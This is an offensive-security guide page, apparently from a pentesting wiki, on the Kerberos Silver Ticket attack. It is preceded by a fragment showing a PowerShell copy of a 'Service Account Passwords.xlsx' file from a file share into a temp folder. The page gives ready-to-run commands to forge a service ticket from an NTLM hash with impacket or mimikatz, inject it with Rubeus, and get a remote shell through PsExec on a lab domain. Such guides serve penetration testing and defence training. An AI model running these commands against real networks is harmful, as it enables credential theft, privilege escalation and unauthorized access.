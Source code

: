  
FullName       : \\FileServer1.domain.com\S$\shares\IT\Service Account Passwords.xlsx
Owner          : DOMAIN\JOED
LastAccessTime : 27/07/2020 12:47:44
LastWriteTime  : 27/07/2020 12:47:44
CreationTime   : 10/04/2011 10:04:50
Length         : 76859
 
PS> Copy-Item -Path "\\FileServer1.domain.com\S$\shares\IT\Service Account Passwords.xlsx" -Destination "C:\Windows\Temp\a20ds3"
PS>

#####################################################

# Silver Ticket

## Silver ticket

The Silver ticket attack is based on **crafting a valid TGS for a service once the NTLM hash of service is owned** \(like the **PC account hash**\). Thus, it is possible to **gain access to that service** by forging a custom TGS **as any user**.

In this case, the NTLM hash of a computer account \(which is kind of a user account in AD\) is owned. Hence, it is possible to craft a ticket in order to get into that machine with administrator privileges through the SMB service. The computer accounts reset their passwords every 30 days by default.

It also must be taken into account that it is possible to forge tickets using the AES Kerberos keys \(AES128 and AES256\). To know how to generate an AES key read: [section 4.4 of MS-KILE](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/936a4878-9462-4753-aac8-087cd3ca4625) or the [Get-KerberosAESKey.ps1](https://gist.github.com/Kevin-Robertson/9e0f8bfdbf4c1e694e6ff4197f0a4372).

{% code title="Linux" %}
```bash
python ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park -spn cifs/labwws02.jurassic.park stegosaurus
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache 
python psexec.py jurassic.park/stegosaurus@labwws02.jurassic.park -k -no-pass
```
{% endcode %}

 In Windows, **Mimikatz** can be used to **craft** the **ticket**. Next, the ticket is **injected** with **Rubeus**, and finally a remote shell can be obtained thanks to **PsExec**.

{% code title="Windows" %}
```bash
#Create the ticket
mimikatz.exe "kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-1349129144-367733775 /rc4:b18b4b218eccad1c223306ea1916885f /user:stegosaurus /service:cifs /target:labwws02.jurassic.park"
#Inject in memory using mimikatz or Rubeus
mimikatz.exe "kerberos::ptt ticket.kirbi"
.\Rubeus.exe ptt /ticket:ticket.kirbi
#Obtain a shell
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd
```
{% endcode %}
